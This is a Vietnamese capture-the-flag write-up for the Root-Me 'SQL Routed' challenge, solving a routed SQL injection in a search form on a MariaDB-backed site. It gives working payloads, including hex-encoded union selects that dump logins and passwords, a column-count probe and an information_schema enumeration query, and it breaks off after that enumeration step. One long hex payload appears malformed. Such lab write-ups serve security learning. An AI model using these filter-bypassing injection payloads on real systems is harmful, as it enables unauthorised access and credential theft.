 # Rootme.SQL-Routed

Point: 35

Exploit my requests

Statement: Find the password

Related resource: [Routed SQL Injection - Zenodermus Javanicus (Exploitation - Web)](https://securityidiots.com/Web-Pentest/SQL-Injection/routed_sql_injection.html)

# Overview

Form cảu challlenge như sau

![image](https://user-images.githubusercontent.com/115911041/232952854-5b94276c-de72-41b4-8842-c8bbeec403a1.png)

Challenge lần này cung cấp cho ta một web có chứng năng login và search. Vậy ta cần phải tìm password để login vào administrator

# Solution

Sau một vài lần thử một số payload đơn giản ở `Home` thì không có gì nhiều xảy ra. Mình chuyển sang `Search` để tiếp tục, sau khi thừ chèn `'` thì đã có hi vọng

![image](https://user-images.githubusercontent.com/115911041/232953414-aec1b1fa-fed5-4ea2-8d1e-ee945fd49e9f.png)

Vậy là database đang sử dụng MariaDB. Mình tiếp tục thử các lệnh khác thì đều bị filter hết như `or`, `and`, `order by`.

Nếu các bạn có đọc tài liệu mà challenge đã cung cấp thì sẽ biết cách bypass SQL-Routed.Là chúng ta sẽ chuyển câu truy vấn sang dạng hex là xong.

``` 
#Hex of: -1' union select login,password from users-- a
-1' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```

Nếu các bạn muốn nhanh thì có thể sử dụng payload đó vào phần search là sẽ ra flag. Nhưng mình sẽ tiếp tục sử dụng cách khác để có thể hiểu bài hơn.Như anh Khánh đã từng nói:"Làm được python tồi hãy nghĩ đến sử dụng tool".

Bước đầu, mình sử dụng query này:
`' UNION SELECT 1 -- -`

![image](https://user-images.githubusercontent.com/115911041/232954760-1d4d65e0-6176-4cb8-8019-751c1930ff06.png)

Vậy chứng tỏ là sau khi thực hiện câu lệnh union select 1, nó sẽ tiếp tục đi thực hiện một câu lệnh truy vấn khác nữa. Vì nếu chỉ có 1 câu lệnh thì nó sẽ trả về 1 thôi.

Bây giờ ta chỉ cần xác định số column, mình sẽ sử dụng `order by`

```
#Hex of: 'union select order by 1-- -
'union+select+0x276f7264657220627920312d2d202d--+ 
```
Sau đó tăng dần đến 3 thì báo lỗi ` Unknown column '3' in 'order clause'`, vậy số column là 2. Giờ ta sẽ xác định table hiện tại là gì, mình sử dụng group_concat để lấy toàn bộ table users

```
#Hex of: 'union select null,(select group_concat(column_name) from information_schema.columns where table_name='users')-- -
'union+select+0x270x750x6e0x690x6f0x6e0x200x730x650x6c0x650x630x740x200x6e0x750x6c0x6c0x2c0x280x730x650x6c0x650x630x740x200x670x720x6f0x750x700x5f0x630x6f0x6e0x630x610x740x280x630x6f0x6c0x750x6d0x6e0x5f0x6e0x610x6d0x650x290x200x660x720x6f0x6d0x200x690x6e0x660x6f0x720x6d0x610x740x690x6f0x6e0x5f0x730x630x680x650x6d0x610x2e0x630x6f0x6c0x750x6d0x6e0x730x200x770x680x650x720x650x200x740x610x620x6c0x650x5f0x6e0x610x6d0x650x3d0x270x750x730x650x720x730x270x290x2d0x2d0x200x2d--+
```
Ta được phần response khá dài.

